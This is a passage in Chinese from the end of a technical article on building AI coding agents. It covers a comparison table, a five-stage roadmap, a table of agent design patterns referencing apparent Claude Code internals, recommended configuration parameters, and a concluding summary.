| **上下文压缩** | 字符串替换清空 + 线性 Summary 截断 | **KV-Cache 显存切片 + 语义知识 DAG** | 消除前缀缓存击穿，降低 60%+ 延迟，保留深层工程信息。 |
| **多 Agent 通信** | 基于文件系统的 Mailbox + Lockfile 轮询 | **内存事件总线 (UDS/NATS) + CRDT 看板** | 亚毫秒级推送，消除文件竞争死锁，支持十到百级 Agent 并发。 |
| **代码修改工具** | 逐字精准匹配 + 强制先读后写 | **AST 语义结构化重构 + 模糊容错 Patch** | 免疫行号漂移与缩进差异，修改成功率从 ~85% 跃升至 98%+。 |
| **命令执行安全** | 2500+ 行应用层正则与 AST 审计 | **默认轻量级 MicroVM 沙箱 + 内核 Landlock** | 根本性阻断恶意指令与数据泄露，无需疲于应付黑客绕过技巧。 |
| **规划与决策** | 静态 Markdown 线性执行清单 | **分支试错搜索 (MCTS) + 局部自愈重规划** | 摆脱死胡同重试陷阱，具备探索性自我纠错能力。 |
| **开发调试能力** | 纯文本与静态 LSP 符号检索 | **LSP + DAP 动态断点单步调试器** | 从“瞎猜式插 Log”跨越到“确定性变量级排错”。 |
| **用户交互介质** | 纯字符终端 (React + Ink TUI) | **终端控制台 + 交互式 Webview 实时画布** | 多文件 Diff、架构图与前端渲染实现所见即所得的人机共生。 |

---

## 16. 工业级 AI Coding Agent 落地重构实施白皮书与模式速查

本章为期望从零自研或对标重构工业级 AI 编程智能体的研发团队，提供完整的**工程实施路线图、核心数据字典、参数推荐基准与设计模式速查表**。

### 16.1 系统分层拓扑与核心模块依赖矩阵



### 16.2 工业级智能体研发五阶段演进路线图

```
 ┌────────────────────────────────────────────────────────────────────────────────────────┐
 │ 阶段一：稳固基座 (Foundation & Sandboxed I/O)                                            │
 │ • 确立统一的 Tool 抽象契约 (Zod Schema)                                                 │
 │ • 实现 Tree-sitter AST Bash 命令审计 (拦截 23 类高危注入)                                │
 │ • 建立 FileEditTool "先读后写" 状态机与原子临时重命名写入机制                           │
 └────────────────────────────────────────┬───────────────────────────────────────────────┘
                                          │
                                          ▼
 ┌────────────────────────────────────────────────────────────────────────────────────────┐
 │ 阶段二：上下文治理与缓存保护 (Context Budgeting & Cache Optimization)                   │
 │ • 确立 __SYSTEM_PROMPT_DYNAMIC_BOUNDARY__ 物理缓存分界线                               │
 │ • 接入 Micro-Compaction (增量裁切旧工具输出，保持 Prompt Cache 0 击穿)                 │
 │ • 挂载两阶段 Auto-Compaction 全局压缩与熔断器                                           │
 └────────────────────────────────────────┬───────────────────────────────────────────────┘
                                          │
                                          ▼
 ┌────────────────────────────────────────────────────────────────────────────────────────┐
 │ 阶段三：轻量知识库与记忆工程 (Hierarchical Memory & Metadata RAG)                       │
 │ • 实施四层记忆继承体系 (Managed -> User -> Project -> Local)                           │
 │ • 落地四维记忆分类学 (user, feedback, project, reference) 与反代码派生红线              │
 │ • 搭建轻量级元数据 Manifest + SideQuery 检索架构 (免除复杂向量库依赖)                  │
 └────────────────────────────────────────┬───────────────────────────────────────────────┘
                                          │
                                          ▼
 ┌────────────────────────────────────────────────────────────────────────────────────────┐
 │ 阶段四：多智能体协作与异步总线 (Multi-Agent Swarm & Dual-Lane Event Loop)               │
 │ • 实现双轨工具执行器：只读工具并发派发，写工具串行栅栏同步                             │
 │ • 落地基于文件信箱 (Mailbox IPC) 的去中心化 Swarm 协同机制                              │
 │ • 搭建有向无环图 (Task DAG) 任务看板与分布式权限代理穿透                               │
 └────────────────────────────────────────┬───────────────────────────────────────────────┘
                                          │
                                          ▼
 ┌────────────────────────────────────────────────────────────────────────────────────────┐
 │ 阶段五：确定性评测靶场与极客交互 (Deterministic Replay & Deep IDE Integration)         │
 │ • 引入确定性哈希 VCR 流量录制回放系统，构建免真实 Token 消耗的 CI 自动化回归网          │
 │ • 落地终端虚拟列表 VirtualMessageList 与 Hold-to-Talk 毫秒级语音交互                   │
 │ • 接入 IDE 反向 JSON-RPC 通道，实现光标选区同步与实时 Diff 共驾                        │
 └────────────────────────────────────────────────────────────────────────────────────────┘
```

### 16.3 核心设计模式速查表（Agentic Design Patterns Matrix）

| 模式名称 | 适用业务场景 | Claude Code 生产级实现参考 | 带来的核心工程收益 |
| :--- | :--- | :--- | :--- |
| **栅栏屏障模式 (Barrier Pattern)** | 多工具混杂调用时的调度排队 | `partitionToolCalls` 读并发 + 写串行屏障 | 保证文件写操作绝对因果一致性，大幅压低只读工具延迟 |
| **侧向决策通道 (Side-Query Pattern)** | 敏感权限分类、记忆检索、提示词压缩 | `sideQuery` 独立调用高智商小上下文模型 | 避免污染主会话长上下文历史，决策开销压低 80%+ |
| **信箱反应式通信 (Mailbox Pattern)** | 多 Agent、云端 Ultraplan 与后台任务回执 | `~/.claude/teams/{team}/inboxes/*.json` | 无中心节点，跨进程无锁解耦，天然支持离线投递与重试 |
| **乐观锁版本守卫 (Optimistic Lock Guard)** | 外部 IDE 与 Agent 并发修改同一物理文件 | `mtimeMs` 时间戳校验与 `FILE_UNEXPECTEDLY_MODIFIED_ERROR` | 消除幽灵覆盖风险，保护人类开发者正在保存的最新成果 |
| **仿生慢波巩固 (Biomimetic Consolidation)** | 历史会话经验提炼与知识自愈沉淀 | `AutoDreamEngine` 结合 Fork Agent 离线提炼 | 会话交互零延迟打扰，将高价值工程教训持久化沉淀 |
| **前缀锚定缓存 (Prefix Pinning Pattern)** | 系统提示词、工具定义与静态规则的装配 | 固定前缀顺序 + 动静分界线占位符 | 确保 95%+ 的 API 轮次直接命中 Prompt Cache，延迟降至 1/3 |
| **自反思技能固化 (Self-Evolving Skills)** | 复杂任务排错完毕后的工程模式沉淀 | `SkillifyEngine` 交互式访谈生成 `SKILL.md` | 让智能体具备自我进化与能力库自治沉淀的闭环能力 |

### 16.4 生产级核心配置参数推荐基准表

| 参数名称 | 建议生产默认值 | 作用范围与工程取舍考量 |
| :--- | :--- | :--- |
| `MAX_ENTRYPOINT_LINES` | `200 行` | `MEMORY.md` 入口文件行数硬限制，防止单点记忆无限膨胀撑爆上下文 |
| `MAX_ENTRYPOINT_BYTES` | `25,000 字节` | `MEMORY.md` 字节硬上限，保全行完整性的同时阻断极端长单行 |
| `SIDEQUERY_TOP_K_BUDGET`| `5 个槽位` | 侧向记忆检索每次注入主上下文的文件上限，平衡丰富度与注意力焦点 |
| `COMPACTION_TRIGGER_RATIO`| `75% ~ 80%` | 触发两级压缩的 Token 物理红线，保留 20k Token 作为安全推理缓冲区 |
| `TOKEN_SAFETY_MULTIPLIER`| `1.33 (4/3)` | 估算 Token 时的安全冗余倍率，在模型物理 context_window 耗尽前平滑截断 |
| `FIRST_PRESS_FALLBACK_MS`| `2000 毫秒` | 终端按键捕获状态机初始容错倒计时，充分吸收 macOS/Linux 长按键盘延迟 |
| `RELEASE_TIMEOUT_MS` | `200 毫秒` | 终端语音按键松开判定窗口，平滑覆盖字符流打字抖动（30~80ms） |
| `VIRTUAL_SCROLL_BUFFER` | `20 行` | 终端 VirtualMessageList 视口外缓冲行数，保障滚动无任何白屏撕裂 |

### 16.5 结语

通过对 Claude Code 完整源码的逐层拆解与前沿演进对比，我们可以断言：**构建一个卓越的 AI Coding Agent，绝非简单的“大模型接口调用”，其核心护城河在于围绕 LLM 认知边界搭建的严密系统工程。** 从 AST 语法级安全防线、到多 Agent 权限代理穿透；从 Prompt Cache 友好的增量微压缩、到 Git Bundle 毫秒级会话瞬移；从对模型心理机制洞察的对抗性验证、到纯 TS 实现的终端虚拟化界面 —— 这些系统级的设计规范与工程哲学，为业界研发下一代高性能、高可信的软件工程智能体提供了标准级的范式与蓝图。同时，面向未来将测试期计算推进至 MCTS 与 PRM、浏览器推进至无头容器与 Computer Use、技能生态推进至自省强化演进、交互推进至全双工原生多模态、协议层推进至专有 Special Tokens 与文法解码、开发环境推进至 IDE 影子工作区进程内共生、环境依赖推进至声明式不可变沙箱的全方位演化路线，更指明了新一代自主编程智能体的核心技术制高点。